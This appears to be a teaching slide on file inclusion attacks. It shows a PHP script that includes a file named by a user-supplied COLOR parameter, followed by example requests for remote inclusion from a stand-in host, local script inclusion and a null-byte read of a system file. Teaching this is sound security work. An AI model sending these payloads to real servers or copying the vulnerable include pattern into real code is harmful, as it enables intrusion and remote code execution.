

# File Inclusion Attack
A script on the server called custom_color.php chooses which file to include based on color:
<?php
   if ( isset( $_GET['COLOR'] ) ) {
     include( $_GET['COLOR'] . '.php' );
   }
?>
remote file inclusion (RFI)
Attacker sets color to something other than red or blue!
GET /custom_color.php?COLOR=http://exploits.com/malware39
GET /custom_color.php?COLOR=initialize_database
GET /custom_color.php?COLOR=/etc/password%00

local file inclusion
(LFI)

(Example from wikipedia)